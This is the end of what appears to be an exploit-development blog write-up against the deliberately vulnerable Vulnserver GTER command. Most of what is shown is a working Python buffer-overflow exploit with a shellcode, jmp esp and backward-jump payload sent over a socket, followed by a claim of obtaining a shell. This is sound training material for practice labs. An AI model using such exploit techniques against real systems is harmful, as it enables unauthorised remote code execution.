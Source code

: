 ``` python
    b'\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3'
)

PAYLOAD = (
    b'GTER /.:/' +
    # Align stack to avoid overwrite our shellcode
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    CUSTOM_SHELL +
    b'A' * (147 - 2 - len(CUSTOM_SHELL)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
```

And execute the exploit again:

<div class="imgblock">

![Shell](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331147/blog/vulnserver-gter-no-egghunter/success_kb3rs4.gif)

</div>

Whooo\! We got our shell again\!

You can download the final exploit [here](exploit.py)

## Conclusion

This time I wanted to show that there are always ways to overcome harsh
exploitation environments, just by trying harder.

## References

1. [Metasploit
    block\_shell](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_shell.asm)

2. [WSASocketA
    function](https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa)

3. [connect
    function](https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect)

4. [CreateProccessA
    function](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)
